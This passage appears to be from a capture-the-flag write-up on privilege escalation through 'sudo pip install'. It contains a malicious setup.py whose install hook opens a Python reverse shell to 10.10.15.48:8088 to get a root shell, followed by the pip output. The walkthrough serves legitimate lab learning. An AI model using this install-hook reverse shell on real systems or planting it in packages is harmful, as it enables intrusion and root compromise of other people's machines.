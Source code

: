     homer@canape:/dev/shm$ sudo pip install .
    The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
    The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
    Processing /dev/shm
    Installing collected packages: UNKNOWN
      Running setup.py install for UNKNOWN ... done
    Successfully installed UNKNOWN
    
    homer@canape:/dev/shm$ ls
    0xdf  setup.py
    
    homer@canape:/dev/shm$ cat 0xdf
    928c3df1...
    

### root Shell

Just getting the flag isn’t fun. Let’s use the setup.py to get a root shell.
I’ll use the python reverse shell code here:

    
    
    import os
    import socket
    import subprocess
    
    from setuptools import setup
    from setuptools.command.install import install
    
    class Exploit(install):
        def run(self):
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("10.10.15.48",8088))
            os.dup2(s.fileno(),0)
            os.dup2(s.fileno(),1)
            os.dup2(s.fileno(),2)
            p = subprocess.call(["/bin/sh", "-i"])
    
    setup(
        cmdclass={
            "install": Exploit
        }
    )
    
    
    
    homer@canape:/dev/shm$ sudo pip install .
    The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
    The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
    Processing /dev/shm
    Installing collected packages: UNKNOWN
      Running setup.py install for UNKNOWN ... -
    
